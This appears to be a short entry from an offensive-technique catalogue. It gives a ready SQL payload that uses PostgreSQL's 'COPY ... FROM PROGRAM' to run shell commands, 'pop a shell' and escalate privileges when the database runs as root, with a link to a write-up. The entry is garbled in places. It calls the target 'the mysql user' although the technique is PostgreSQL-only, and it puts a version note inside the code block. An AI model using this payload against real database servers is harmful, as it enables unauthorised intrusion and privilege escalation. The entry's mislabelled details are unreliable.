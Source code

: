 ```yaml
---
functions:
  gain-access:
    - description: Use code execution to pop a shell in the context of the mysql user
      code: |
        version 9.3 +
        CREATE TABLE cmd_exec(cmd_output text);
        COPY cmd_exec FROM PROGRAM '<shell commands>';SELECT * FROM cmd_exec;
  privilege-escalation:
    - description: Use code execution to escalate privileges if postgres is running as root
      code: |
        # Same as gain access

resources : |
  https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5
---
```


